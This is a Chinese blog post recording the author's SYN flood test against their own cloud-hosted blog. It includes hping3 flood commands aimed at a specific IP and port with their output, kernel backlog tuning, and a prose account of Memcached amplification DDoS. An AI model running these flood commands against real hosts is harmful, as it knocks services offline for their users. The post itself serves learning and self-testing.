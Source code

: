 ```yaml
---
title: SYN Flood Attack
author: 小黄鸭
type: post
date: 2019-12-26T14:03:53+00:00
excerpt: SYN Flood攻击本博客实践
featured_image: /wp-content/uploads/2019/12/Screenshot-from-2019-12-26-22-02-50.png
rank_math_primary_category:
  - 29
rank_math_seo_score:
  - 18
rank_math_internal_links_processed:
  - 1
categories:
  - 最佳实践
archieved: Arc'd

---
```

## 什么是SYN Flood

SYN Flood，又称TCP Flood，是利用TCP协议三次握手消耗目标服务器资源的DDoS攻击。客户端通过伪造SYN包，使用伪造的源IP地址，因为服务端收到请求后会对SYN进行响应——发送SYN和ACK包，但是对方的地址是伪造的因此不会响应，服务端会重试几次后丢弃这个连接。这样会导致服务端对多个伪造的SYN包在重试响应，无暇理睬正常的连接请求。

## 实践

### 初步尝试

根据定义，需要向特定服务发送大量的TCP SYN包，因此需要利用一些发包工具。通过搜索找到[hping工具][1]，作者是antirez（Redis作者）。以下是安装及文档中部分实践使用到的参数：

```
uck@duck-MS-7A34:~$ sudo apt install hping3
duck@duck-MS-7A34:~$ sudo hping --help
usage: hping3 host [options]
  -i  --interval  wait (uX for X microseconds, for example -i u1000)
      --fast      alias for -i u10000 (10 packets for second)
      --faster    alias for -i u1000 (100 packets for second)
      --flood      sent packets as fast as possible. Don't show replies.
IP
  -a  --spoof      spoof source address
  --rand-dest      random destionation address mode. see the man.
  --rand-source    random source address mode. see the man.
UDP/TCP
  -s  --baseport   base source port             (default random)
  -p  --destport   [+][+]&lt;port> destination port(default 0) ctrl+z inc/dec
  -S  --syn        set SYN flag

```
尝试攻击部署在阿里云的个人博客：

```
uck@duck-MS-7A34:~$ sudo hping3 -i u1000 -S -p 443 120.25.247.125
HPING 120.25.247.125 (enp33s0 120.25.247.125): S set, 40 headers + 0 data bytes
len=46 ip=120.25.247.125 ttl=49 DF id=0 sport=443 flags=SA seq=0 win=29200 rtt=15.8 ms
len=46 ip=120.25.247.125 ttl=49 DF id=0 sport=443 flags=SA seq=1 win=29200 rtt=14.7 ms
len=46 ip=120.25.247.125 ttl=49 DF id=0 sport=443 flags=SA seq=2 win=29200 rtt=13.6 ms
len=46 ip=120.25.247.125 ttl=49 DF id=0 sport=443 flags=SA seq=3 win=29200 rtt=12.6 ms
len=46 ip=120.25.247.125 ttl=49 DF id=0 sport=443 flags=SA seq=4 win=29200 rtt=11.5 ms
len=46 ip=120.25.247.125 ttl=49 DF id=0 sport=443 flags=SA seq=5 win=29200 rtt=10.5 ms
...

```
此时可以在ECS上看到网络情况，通过netstat命令查看到处于SYN_RECV的大量TCP连接，如图所示：

![](../2019/12/001-zhujiekun-SYN_RECV.png)
### 暴力发包

尝试将攻击频率调快：`sudo hping3 -i u1 -S -p 443 120.25.247.125`，然后在ECS上查看当前的SYN包个数：

```
uck@iZwz92ujq5zpxvm1vtq0gtZ:~$ netstat -n | grep SYN | wc -l
128

```
只有128个TCP半连接，与发包数量相差很大。猜测是系统配置限制了总TCP连接数上限或者半连接状态连接数上限。

通过查询相关文档，找到系统配置：

```
uck@iZwz92ujq5zpxvm1vtq0gtZ:~$ vim /etc/sysctl.conf
vm.swappiness = 0
net.ipv4.neigh.default.gc_stale_time = 120

# see details in https://help.aliyun.com/knowledge_detail/39428.html
net.ipv4.conf.all.rp_filter = 0
net.ipv4.conf.default.rp_filter = 0
net.ipv4.conf.default.arp_announce = 2
net.ipv4.conf.lo.arp_announce = 2
net.ipv4.conf.all.arp_announce = 2

# see details in https://help.aliyun.com/knowledge_detail/41334.html
net.ipv4.tcp_max_tw_buckets = 5000
net.ipv4.tcp_syncookies = 1
net.ipv4.tcp_max_syn_backlog = 128
net.ipv4.tcp_synack_retries = 2

net.ipv6.conf.all.disable_ipv6 = 1
net.ipv6.conf.default.disable_ipv6 = 1
net.ipv6.conf.lo.disable_ipv6 = 1
net.ipv6.conf.eth0.disable_ipv6 =1

kernel.sysrq = 1

```
其中一项`net.ipv4.tcp_max_syn_backlog = 128`可能是有关项，并且通过查阅文件中提供的阿里云文档，得到参数和它相关参数的具体描述：

  * `net.ipv4.tcp_max_syn_backlog`：该参数决定了系统中处于SYN\_RECV状态的TCP连接数量。SYN\_RECV状态指的是当系统收到SYN后，作为SYN+ACK响应后等待对方回复三次握手阶段中的最后一个ACK的阶段。对于还未获得对方确认的连接请求，可保存在队列中的最大数目。如果服务器经常出现过载，可以尝试增加这个数字。默认为1024。
  * `net.core.somaxconn`：该参数定义了系统中每一个端口最大的监听队列的长度，是个全局参数。该参数和net.ipv4.tcp\_max\_syn_backlog有关联，后者指的是还在三次握手的半连接的上限，该参数指的是处于ESTABLISHED的数量上限。当backlog大于net.core.somaxconn时，以net.core.somaxconn参数为准。

那么将他们都改成一个特别大的数值然后保存，再尝试SYN Flood，结果如下：

  * 因为发包占用了很多的流量所以本机无法SSH上ECS查看
  * 通过阿里云的管理面板查看到TCP包一共64000个，其中NON_ESTABLISHED状态的包占了几乎全部数量
* 访问https的博客地址无法响应

![](../2019/12/001-zhujiekun-TCP_connection_count.png)
### 持续监控

在持续发包一段时间后，发现TCP连接数下降至约500个，并且博客站点重新可以访问。因为时间原因没有尝试其他的手段，主要推测可能是现有的系统（也可能是协议层、云服务商等）对暴力SYN Flood攻击有判断和校验，丢弃特定特征的包（相同IP、端口或者其他指纹）。

因为ECS地理位置离测试地点较近，所以通常延迟非常低。在SYN状态TCP连接数量从64k下降到500时，站点可以进行访问但是观察到速度比原来明显缓慢，通过这点猜测DoS攻击有生效但是受限于使用的发起攻击的设备流量条件不足以拖跨服务。

## 延伸思考

因为设备条件问题，虽然可以观察到大量半连接的TCP状态，但是离DoS（Denial of Service）还是有很大的差距，消耗不完目标的网络带宽或系统资源。那是否有方案通过小流量产生大流量（放大）的攻击呢？

### Memcached DDoS

当Memcached服务器接收到GET请求，它从内存获取相关信息组织起一个RESPONSE，然后通过连续的UDP包进行返回。通常来说GET请求的体积和RESPONSE的体积大小可以相差很多倍。

攻击者可以利用这点，先向Memcached服务器插入随机的大体积数据，然后向服务器请求。根据CloudFlare的报告，这样会导致一个巨大的流量放大倍数，例如15 byte的请求可以引起134KB的响应。当Memcached响应的对象指向攻击目标机器的时候，目标机器就会收到海量的UDP包，从而可能导致拒绝服务。

 [1]: https://github.com/antirez/hping